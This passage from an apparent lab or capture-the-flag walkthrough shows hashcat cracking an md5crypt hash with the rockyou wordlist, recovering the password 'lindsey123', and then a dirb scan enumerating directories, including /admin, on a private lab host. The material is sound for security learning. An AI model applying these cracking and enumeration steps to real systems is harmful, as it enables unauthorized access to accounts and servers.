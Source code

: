 ```console
- Device #1: Kernel m00500.35b61712.kernel not found in cache! Building may take a while...
- Device #1: Kernel amp_a0.35b61712.kernel not found in cache! Building may take a while...

Cache-hit dictionary stats /usr/share/wordlists/rockyou.txt: 139921507 bytes, 14343297 words, 14343297 keyspace

$1$w9aURG9k$Wf1VIpv9VET3v3VWZ4YD8.:lindsey123             
                                                          
Session.Name...: hashcat
Status.........: Cracked
Input.Mode.....: File (/usr/share/wordlists/rockyou.txt)
Hash.Target....: $1$w9aURG9k$Wf1VIpv9VET3v3VWZ4YD8.
Hash.Type......: md5crypt, MD5(Unix), FreeBSD MD5, Cisco-IOS MD5
Time.Started...: Tue Jan 24 18:55:44 2017 (3 secs)
Speed.Dev.#1...:    22462 H/s (12.65ms)
Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.......: 82661/14343297 (0.58%)
Rejected.......: 17/82661 (0.02%)
Restore.Point..: 81497/14343297 (0.57%)

Started: Tue Jan 24 18:55:44 2017
Stopped: Tue Jan 24 18:55:54 2017
```

After some time we see that the MD5 Hash is that of the password __lindsey123__.

## Finding the Site Token:

Since we were able to compromise a username and password, we need to find a place where we can leverage these credentials.

At this point, I decide to run __dirb__ to try and enumerate any interesting directories that I might have missed.

```console
root@kali:~# dirb http://192.168.101.9:443

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jan 24 18:58:31 2017
URL_BASE: http://192.168.101.9:443/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.101.9:443/ ----
==> DIRECTORY: http://192.168.101.9:443/admin/                                 
==> DIRECTORY: http://192.168.101.9:443/css/                                   
==> DIRECTORY: http://192.168.101.9:443/img/                                   
+ http://192.168.101.9:443/index.php (CODE:200|SIZE:7343)                      
==> DIRECTORY: http://192.168.101.9:443/js/                                    
==> DIRECTORY: http://192.168.101.9:443/mail/                                  
==> DIRECTORY: http://192.168.101.9:443/vendor/ 
```
